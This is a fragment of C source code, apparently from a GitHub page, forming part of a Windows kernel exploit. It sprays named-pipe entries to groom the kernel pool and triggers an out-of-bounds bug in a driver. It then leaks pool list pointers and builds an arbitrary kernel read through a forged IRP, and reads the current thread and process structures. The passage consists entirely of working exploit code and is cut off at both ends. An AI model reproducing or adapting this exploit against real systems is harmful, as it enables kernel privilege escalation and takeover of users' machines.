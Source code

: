 ```
  );

  printf("[*] hDevice : %p\n", hDevice);
  Sleep(200);
  /*    Create Memory Layout  */

  for (int i = 0; i < PIPESIZE; i++) {
    // size of ETHREAD structure is 0xa00
    WriteDataEntry(pipes[i], DummyBuffer, 0xff0);
    WriteDataEntry(pipes[i], DummyBuffer, 0xff0);
    WriteDataEntry(pipes[i], DummyBuffer, 0xff0);
  }
  ReadDataEntry(pipes[PIPESIZE - 0x80], DummyBuffer, 0xff0);

  trigger(hDevice);
  // Before Start OOB, Holing the Free Space
  WriteDataEntry(holder, DummyBuffer, 0xff0);

  // Step1. OOB Check
  for (int i = 0; i < PIPESIZE; i++) {
    DWORD read = 0;
    PeekNamedPipe(pipes[i].r, DummyBuffer, OOBSIZE, & read, NULL, NULL);
    if (read > OOBSIZE - 0x100) {
      overflowidx = i;
      break;
    }
  }
  printf("[+] gotit : %p\n", overflowidx);
  if (overflowidx == 0) {
    exit(0);
  }

  blink = * (DWORD64 * )(DummyBuffer + 0xfd0);
  flink = * (DWORD64 * )(DummyBuffer + 0xfd8) + 0x1000;

  DWORD64 CCB = blink - 0xa8;
  printf("[*] blink : %llx, flink : %llx, CCB : %llx\n", blink, flink, CCB);

  // Setp2. ARR Setup
  setupaar(overwrite_data_ptr);
  // Release the Area
  ReadDataEntry(holder, DummyBuffer, 0xff0);
  trigger(hDevice);

  // Before Start ARR, Holing the Free Space
  WriteDataEntry(holder, DummyBuffer, 0xff0);

  // Setup IRP
  IO_STATUS_BLOCK isb;
  NtFsControlFile(pipes[overflowidx].w, 0, 0, 0, & isb, 0x119FF8, DummyBuffer, 0x1000, 0, 0);

  // Read IRP
  DWORD64 irpptr = readQWORD(blink + 0x40);
  fakeirp_w = (IRP * ) malloc(0x1000);
  for (int i = 0; i < 0x40; i++) {
    *(DWORD64 * )((LPBYTE) fakeirp_w + i * 8) = readQWORD(irpptr + i * 8);
  }

  //PrintHex((LPBYTE)fakeirp_w, 0x80);

  DWORD64 CurrentThread = * (DWORD64 * )((LPBYTE) fakeirp_w + 0x20);
  DWORD64 CurrentProcess = readQWORD(CurrentThread - IrpListOffset + ProcessOffset);
  printf("[*] CurrentThread : %llx, CurrentThread : %llx\n", CurrentThread, CurrentProcess);
```